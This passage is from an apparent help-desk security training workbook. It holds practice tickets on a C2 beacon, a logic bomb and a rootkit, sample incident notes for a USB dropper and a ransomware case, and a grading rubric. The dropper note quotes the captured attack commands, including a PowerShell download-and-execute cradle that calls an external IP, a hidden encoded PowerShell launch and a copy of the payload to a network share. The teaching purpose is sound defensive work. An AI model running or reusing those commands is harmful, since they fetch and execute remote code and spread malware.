* **Justification:** A green antivirus widget is completely blind to fileless memory execution and living-off-the-land scripts. Querying EDR and network telemetry reveals regular outbound TCP port 443 connections to external IP `185.22.112.14` occurring strictly every 300 seconds (5 minutes). This beacon cadence is indicative of a compromised host functioning as a bot waiting for C2 instructions. Isolate Nora's endpoint from the network, issue her a clean loaner laptop to complete payroll, and escalate the process tree to the SOC.
</details>


---

#### Ticket 4 (practice case, not from the chapter): Jordan Reed (Operations Specialist) — `INC-2026-1184`
*Request:* "Was reviewing scheduled tasks on our staging host `SRV-STAGE-01` and found a task named `StagingMaintenance`. The action is `powershell.exe -File C:\stage\cleanup.ps1`, and the trigger condition checks if a departed contractor's Active Directory account is disabled. Should I run the script manually to see what it cleans?"

* **Your Action:** [ Run Script / Delete Task / Disable Task, Preserve Evidence, & Escalate ]
* **Threat Classification & Vector:**
* **Technical Step & Justification:**

<details>
<summary>Solution & Lead Tech Review</summary>

* **Action:** **DISABLE TASK, PRESERVE EVIDENCE, & ESCALATE TO HR / LEGAL**.
* **Threat Classification & Vector:** **Logic Bomb** (Malicious Insider Threat).
* **Justification:** Never execute an unknown or suspicious script to "see what it does." A logic bomb is designed to execute destructive payloads (such as wiping directories or dropping backdoors) when specific conditions are met. Immediately disable the scheduled task via `schtasks.exe /change /tn "StagingMaintenance" /disable` so it cannot trigger. Export the task definition XML and copy `cleanup.ps1` to a secure hash-verified forensic share. Notify Jules, the SOC, and Human Resources for formal incident handling.
</details>


---

#### Ticket 5 (practice case, not from the chapter): Dev Patel (Software Engineer) — `INC-2026-1185`
*Request:* "My terminal command `dir C:\Windows\System32\drivers` looks completely normal, but EDR generated an alert claiming an unsigned driver is hooking file system I/O. I downloaded a free rootkit remover tool from an internet forum; can I run it with admin rights?"

* **Your Action:** [ Run Free Cleaner / Reimage Host from Known-Good Media ]
* **Threat Classification & Vector:**
* **Technical Step & Justification:**

<details>
<summary>Solution & Lead Tech Review</summary>

* **Action:** **REIMAGE HOST FROM KNOWN-GOOD MEDIA; DO NOT RUN UNTRUSTED CLEANERS**.
* **Threat Classification & Vector:** **Rootkit** (Kernel-Level Evasion).
* **Justification:** Rootkits operate at Ring 0 (kernel space), allowing them to intercept system calls and lie directly to userland utilities like `dir`, `tasklist`, and Windows Explorer. If the operating system cannot be trusted to report its own filesystem, third-party userland cleaning utilities downloaded from the internet cannot be trusted to remediate it (and often carry secondary malware). The only valid remediation for a confirmed rootkit is gathering memory/disk forensics for the SOC, followed by wiping the drive and reimaging the workstation from bare-metal installation media.
</details>


---

## 4. Your Ticket Notes (What to Put in the Ticket)

<div class="scratchpad-container">
  <div class="scratchpad-header">
    <span class="scratchpad-title">Your Ticket Draft & Resolution Scratchpad</span>
    <span class="scratchpad-save-indicator" id="save-ind-10-ticket">Saved in browser</span>
  </div>
  <div class="scratchpad-body">
    <textarea id="notes-10-ticket" style="min-height: 140px;" placeholder="Draft your ticket notes, diagnosis, and resolution steps here before comparing with the reference standard below..."></textarea>
  </div>
  <div class="scratchpad-footer">
    <span>Private notes saved locally in your browser. Not graded.</span>
    <button type="button" class="scratchpad-copy-btn" onclick="copyScratchpad('notes-10-ticket')">Copy Notes</button>
  </div>
</div>

### Tier 1 Host Infection Isolation & Containment Ticket Note

In enterprise security operations, Tier 1 service desk notes serve as the initial chain-of-custody and incident triage record for Tier 2/3 SOC analysts, compliance teams, and management.

#### Part A: Tier 1 Standard Host Infection Isolation & Containment Note
*(Reference Case: Todd / Workstation `TODD-SALES-14` / Incident `INC-2026-1181`)*

```text
================================================================================
TIER 1 INCIDENT CONTAINMENT NOTE - PORTLAND SERVICE DESK
================================================================================
Ticket ID:        INC-2026-1181
Affected Host:    TODD-SALES-14 (IP: 192.168.10.45)
User / Dept:      Todd Miller (Sales & Warehouse Operations)
Technician:       Ethan Mercer (Tier 1 Support)
Lead Reviewer:    Jules Brooks (Service Desk Lead)
Timestamp:        2026-02-12 10:35:12 PST
Category:         Malware / Worm & Dropper Outbreak
Severity:         HIGH (P2) - Lateral Propagation Attempt
Status:           CONTAINED / ESCALATED TO SOC

1. INCIDENT OVERVIEW & INITIAL SYMPTOMS:
   User connected an unverified physical USB drive ("CLIENT DECK") to endpoint.
   Workstation exhibited sustained 100% CPU utilization, audible cooling fan surge,
   and local AV notification identifying 'Trojan:Win32/Dropper.B' in E:\SOW_final.pdf.exe.

2. FORENSIC TRIAGE & PERSISTENCE IDENTIFICATION:
   - File Integrity Analysis:
     Computed SHA-256 digest on dropper executable:
     SHA-256: 9f2c8d1e3a4b5c6d7e8f0a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5d6e7f8a9bc41a
     Catalog Match: Known Trojan-Dropper payload.
   - EDR Process Tree Analysis:
     Identified child execution:
     powershell.exe -nop -w hidden -enc JABzAD0ATgBl... (PID 6412)
       \--> cmd.exe /c copy update.ps1 \\WH-PACK-02\share$
       \--> schtasks.exe /create /tn "CacheCleanup"
   - In-Memory De-obfuscation:
     Decoded Base64 payload reveals download cradle:
     $s=New-Object Net.WebClient;$s.DownloadString('http://185.22.112.14:8080/update.ps1') | IEX
     Correlated with PowerShell Script Block Event ID 4104.
   - Persistence Mechanism:
     Adversary established persistence via Scheduled Task 'CacheCleanup' (Event ID 4698)
     configured to execute update.ps1 at system startup under NT AUTHORITY\SYSTEM.

3. CONTAINMENT & ERADICATION ACTIONS TAKEN:
   - IMMEDIATE ISOLATION: Physically disconnected Ethernet cable at 10:19 PST;
     disabled wireless and Bluetooth adapters; engaged EDR host isolation.
   - Terminated active malicious process tree (PID 6412 and spawned child tasks).
   - Removed persistence scheduled task:
     schtasks.exe /delete /tn "CacheCleanup" /f
   - Confiscated physical USB drive; labeled 'EVIDENCE-INC-1181' and transferred to
     the secure hardware lockbox for forensic chain of custody.
   - Flagged target network share \\WH-PACK-02\share$ to Storage Engineering for
     immediate file quarantine and integrity auditing.

4. ESCALATION & NEXT STEPS:
   - Escalated ticket to Tier 2 SOC queue (Assigned: IR-Team-Portland).
   - External C2 IP (185.22.112.14:8080) submitted to Network Operations for
     perimeter firewall drop rule across all corporate egress interfaces.
   - Issued user a clean, hardened loaner workstation (PORT-LNR-04).
   - Primary workstation TODD-SALES-14 scheduled for disk imaging and bare-metal reimage.
================================================================================
```


---

#### Part B: High-Severity Ransomware Incident Escalation Note
*(Reference Case: Rina / Workstation `RINA-FAC-01` / Incident `INC-2026-1182`)*

```text
================================================================================
CRITICAL SECURITY ESCALATION - ACTIVE RANSOMWARE OUTBREAK
================================================================================
Ticket ID:        INC-2026-1182
Affected Host:    RINA-FAC-01 (IP: 192.168.30.12)
User / Dept:      Rina Rostova (Facilities Operations)
Technician:       Ethan Mercer (Tier 1 Support)
Lead Reviewer:    Jules Brooks (Service Desk Lead)
Timestamp:        2026-02-12 12:44:00 PST
Category:         Malware / Ransomware & Extortion
Severity:         CRITICAL (P1) - Active Host Cryptographic Lockdown
Status:           ISOLATED / EMERGENCY SOC BRIDGE ENGAGED

1. SITUATION ASSESSMENT:
   User reported sudden inaccessibility of all local documents. File extensions
   appended with '.locked'. Desktop background replaced with extortion graphic.
   Notepad text file displayed: 'README_RESTORE.txt' demanding 0.5 BTC.
   Attacker provided Tor portal link with an offer for 'free test decryption'.

2. POLICY EVALUATION & IMMEDIATE DEFENSIVE ACTIONS:
   - Zero-Negotiation Policy Enforced:
     Instructed user strictly NOT to access attacker portal, NOT to initiate chat,
     and NOT to upload test files (preventing secondary data exfiltration).
   - Immediate Containment:
     Ordered user to disengage physical Ethernet cable immediately. Dispatched
     field tech to verify physical power state. Host placed in isolated VLAN via
     managed switch port shutdown (Switch SW-FAC-01, Port Gi1/0/14 disabled).
   - Machine State: Kept system powered on in isolated state per SOC protocol
     to preserve volatile RAM encryption keys and active memory artifacts.

3. IMPACT & BACKUP STATUS VERIFICATION:
   - Local storage volumes C:\ and D:\ fully encrypted.
   - Network shares mapped to user profile (\\FAC-SHARE-01\WorkOrders) audited:
     Zero write activity detected due to rapid network disconnect.
   - Backup Integrity: Verified overnight immutable snapshots on storage array
     (ZFS immutable snapshot pool taken 2026-02-12 02:00 PST). Data restore ready.

4. HANDOFF & EVIDENCE CHAIN:
   - Incident Commander notified via emergency IR bridge.
   - Workstation RINA-FAC-01 tagged for memory dump and drive preservation.
   - User provided temporary non-domain workstation with cloud-only read access.
================================================================================
```


---

## 5. What Good Looks Like (Shift Quality Checklist)

| Performance Criterion | Exemplary (Full Points) | Satisfactory | Needs Revision |
| :--- | :--- | :--- | :--- |
| **Malware Classification & Threat Identification** | Flawlessly categorizes threats across all 8 major types (trojans, ransomware, worms, spyware, rootkits, C2 bots, logic bombs, cryptojackers). Distinguishes infection mechanisms from payloads. | Accurately categorizes common malware types, but occasionally confuses droppers with primary payloads or worms with trojans. | Misidentifies threat types; cannot differentiate ransomware encryption from standard disk corruption. |
| **Host Persistence Triage & Forensic Analysis** | Demonstrates comprehensive mastery of Registry Run keys (`HKCU`/`HKLM`), Windows Services (Event ID 7045), Scheduled Tasks (Event ID 4698), and Startup folders. Decodes audit logs accurately. | Identifies persistence locations when guided, but relies strictly on GUI Task Manager rather than registry and event logs. | Overlooks persistence mechanisms; erroneously assumes killing a running process eradicates malware. |
| **In-Memory & LOLBin De-obfuscation** | Fluently decodes Base64 UTF-16LE PowerShell cradles; articulates the role of `IEX` and WebClient; explains how Event ID 4104 Script Block Logging captures de-obfuscated script code. | Decodes Base64 strings using automated tools, but struggles to explain UTF-16LE formatting or why file-based antivirus misses in-memory execution. | Fails to recognize LOLBin abuse; treats `powershell.exe` as benign because it is signed by Microsoft. |
| **Containment Execution & Audit Documentation** | Strictly enforces the "Isolate First" principle. Rejects ransom negotiation unconditionally. Produces audit-grade Tier 1 ticket notes with precise hashes, event IDs, and IoCs. | Isolates systems after minor delay; documents basic incident details, but omits critical forensic hashes or specific event IDs. | Pokes at infected systems before network isolation; considers paying ransoms; writes vague, unhelpful ticket notes. |


---

*Workbench complete. Proceed to test your knowledge against the interactive questions in `review.yaml` and review companion telemetry artifacts in [`artifacts/`](../artifacts/).*

---

---

## 6. Transfer Problem

This problem looks different from Todd's laptop, but it works the same way. Use the worked example and your notes.

A kiosk PC in the lobby shows a new service named `UpdateHelper` that runs a signed binary and calls out every ten minutes. The signing certificate was revoked last week. Write the order of your actions and explain why the signature check passed at first.
